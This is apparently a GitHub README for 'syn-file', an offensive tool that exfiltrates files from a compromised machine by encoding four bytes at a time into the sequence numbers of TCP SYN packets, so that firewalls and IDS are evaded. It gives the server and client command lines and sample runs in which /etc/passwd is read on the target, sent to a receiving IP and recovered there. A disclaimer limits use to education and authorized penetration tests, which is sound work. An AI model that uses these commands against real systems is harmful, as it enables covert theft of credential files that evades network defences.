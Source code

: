 # syn-file

Exfiltrate data from a compromised target using covert channels.


## Intro
**syn-file** is a software that allows data exfiltration using TCP SYN sequence number packets.
In that way it is possible to bypass firewalls or IDS as no TCP connection is ever opened... similar to SYN scanning.

To be faster exfiltrating data, a useful codification technique is used. Encoding 4 chars in a integer like this:

```seq= buf[0] << 24 | buf[1] << 16 | buf[2] << 8 | buf[3];```

##Background

There are some tools to deploy covert channels, mainly using ICMP protocol, padding the content in the payload section... suspicious!

However I have not seen any tool to deploy it using TCP sequence numbers, also in **syn-file** the payload is left empty ;-)


##usage / example


###server
```
# ./syn-daemon -i eth0 -s 192.168.1.155 -f file.bin
-i interface
-s source ip
-f file to store exfiltrated data
```

Example:
```
# ./syn-daemon -i eth0 -s 192.168.1.155 -f passwd
using interface: eth0
libcap rule: "src host 192.168.1.155"
#    1 [SYN=1] [SEQ #= 3a32353a]
#    2 [SYN=1] [SEQ #= 32353a42]
#    3 [SYN=1] [SEQ #= 61746368]
#    4 [SYN=1] [SEQ #= 206a6f62]
#    5 [SYN=1] [SEQ #= 73206461]
#    6 [SYN=1] [SEQ #= 656d6f6e]
#    7 [SYN=1] [SEQ #= 3a2f7661]
#    8 [SYN=1] [SEQ #= 722f7370]
#    9 [SYN=1] [SEQ #= 6f6f6c2f]
#   10 [SYN=1] [SEQ #= 61746a6f]
...
```

And "passwd" recovered is:
```
# cat passwd 
at:x:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
avahi:x:481:481:User for Avahi:/run/avahi-daemon:/bin/false
avahi-autoipd:x:493:493:User for Avahi IPv4LL:/var/lib/avahi-autoipd:/bin/false
bin:x:1:1:bin:/bin:/bin/bash
colord:x:483:484:user for colord:/var/lib/colord:/sbin/nologin
daemon:x:2:2:Daemon:/sbin:/bin/bash
dnsmasq:x:486:65534:dnsmasq:/var/lib/empty:/bin/false
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
gdm:x:478:477:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
...
```



###client (target)
```
# ./syn-file -i eth0 -d 192.168.1.158 -f /etc/passwd -p 8080 -P 8081
-i interface
-d destination ip / IP that runs syn-daemon
-f file to exfiltrate
-p destination port
-P source port
```

Example from target machine:
```
# ./syn-file -i eth0 -d 192.168.1.158 -f /etc/passwd -p 8080 -P 8081 
using interface: eth0
#1	 [Read from file "at:x"] [Encoded SEQ nr: 0x61743a78] [Wrote 74 bytes]
#2	 [Read from file ":25:"] [Encoded SEQ nr: 0x3a32353a] [Wrote 74 bytes]
#3	 [Read from file "25:B"] [Encoded SEQ nr: 0x32353a42] [Wrote 74 bytes]
#4	 [Read from file "atch"] [Encoded SEQ nr: 0x61746368] [Wrote 74 bytes]
#5	 [Read from file " job"] [Encoded SEQ nr: 0x206a6f62] [Wrote 74 bytes]
#6	 [Read from file "s da"] [Encoded SEQ nr: 0x73206461] [Wrote 74 bytes]
#7	 [Read from file "emon"] [Encoded SEQ nr: 0x656d6f6e] [Wrote 74 bytes]
#8	 [Read from file ":/va"] [Encoded SEQ nr: 0x3a2f7661] [Wrote 74 bytes]
#9	 [Read from file "r/sp"] [Encoded SEQ nr: 0x722f7370] [Wrote 74 bytes]
#10	 [Read from file "ool/"] [Encoded SEQ nr: 0x6f6f6c2f] [Wrote 74 bytes]
```

##Disclamer
Only use allowed for educational purposes or professionaly during a penetration test given the proper permission.

All rights reserved
(c) 2017 spinfoo
Jacobo Avariento
